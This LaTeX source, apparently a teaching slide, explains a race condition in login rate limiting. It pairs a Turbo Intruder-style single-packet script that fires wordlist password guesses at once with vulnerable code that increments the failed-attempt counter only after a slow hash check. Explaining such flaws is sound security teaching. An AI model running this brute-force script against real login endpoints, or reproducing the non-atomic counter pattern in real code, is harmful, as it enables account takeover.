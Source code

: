 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}[style=code]
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2)   # single-packet attack
    for word in open('/path/to/passwords.txt'):
        engine.queue(target.req, word.rstrip(), gate='race1')
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
attempts = db.get_failed_attempts(username)   # read (shared state)
if attempts >= 3:
    abort(429)
ok = check_password(username, password)       # slow, bcrypt/hash compare
if not ok:
    db.increment_failed_attempts(username)    # write, deferred until AFTER the check
\end{lstlisting}
The increment only happens after the (relatively expensive) password comparison finishes. Sending dozens of requests at once means they all read the same pre-increment counter value, so the effective number of guesses per lockout window is far higher than the intended limit of 3 -- the check and the increment are not wrapped in one atomic operation.
\end{causebox}

\end{document}
